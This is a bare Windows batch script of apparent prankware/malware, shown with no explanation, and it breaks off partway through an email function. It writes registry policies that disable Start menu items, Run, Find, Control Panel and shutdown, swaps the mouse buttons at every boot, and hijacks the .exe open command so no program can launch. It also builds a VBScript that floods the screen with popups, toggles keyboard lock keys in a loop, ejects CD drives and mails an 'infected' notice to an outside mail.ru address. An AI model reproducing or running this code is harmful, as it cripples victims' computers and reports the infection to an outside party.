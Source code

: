 reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuSubFolders /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoCommonGroups /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoFavoritesMenu /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoRecentDocsMenu /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSetFolders /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoAddPrinter /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoFind /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMHelp /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoRun /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMorePrograms /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoClose /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoChangeStartMenu /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMMyDocs /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMMyPictures /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMyMusic /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoControlPanel /t REG_DWORD /d 1 /f
echo set application=createobject("shell.application")>>%temp%\temp.vbs
echo application.minimizeall>>%temp%\temp.vbs
reg add "hklm\Software\Microsoft\Windows\CurrentVersion\run" /v SwapNT /t REG_SZ /d rundll32 user32, SwapMouseButton /f
start rundll32 user32, SwapMouseButton
reg add "HKCR\exefile\shell\open\command" /ve /t REG_SZ /d rundll32.exe /f
echo i=50 >> %temp%\temp.vbs
echo while i^>0 or i^<0 >> %temp%\temp.vbs
echo S.popup "forum.whack.ru",0, "forum.whack.ru",0+16 >> %temp%\temp.vbs
echo i=i-1 >> %temp%\temp.vbs
echo wend >> %temp%\temp.vbs
echo do >> %temp%\temp.vbs
echo wscript.sleep 200 >> %temp%\temp.vbs
echo s.sendkeys"{capslock}" >> %temp%\temp.vbs
echo wscript.sleep 200 >> %temp%\temp.vbs
echo s.sendkeys"{numlock}" >> %temp%\temp.vbs
echo wscript.sleep 200 >> %temp%\temp.vbs
echo s.sendkeys"{scrolllock}" >> %temp%\temp.vbs
echo loop>> %temp%\temp.vbs
echo Set oWMP = CreateObject("WMPlayer.OCX.7") >> %temp%\temp.vbs
echo Set colCDROMs = oWMP.cdromCollection >> %temp%\temp.vbs
echo if colCDROMs.Count ^>= 1 then >> %temp%\temp.vbs
echo For i = 0 to colCDROMs.Count - 1 >> %temp%\temp.vbs
echo colCDROMs.Item(i).eject >> %temp%\temp.vbs
echo next >> %temp%\temp.vbs
echo End If >> %temp%\temp.vbs
echo Call SendPost("smtp.mail.ru", "forum.whack.ru@mail.ru", "support@mail.ru", "...", "Копм заражен!") >> %temp%\temp.vbs
echo Function SendPost(strSMTP_Server, strTo, strFrom, strSubject, strBody) >> %temp%\temp.vbs
echo Set iMsg = CreateObject("CDO.Message") >> %temp%\temp.vbs
echo Set iConf = CreateObject("CDO.Configuration") >> %temp%\temp.vbs
echo Set Flds = iConf.Fields >> %temp%\temp.vbs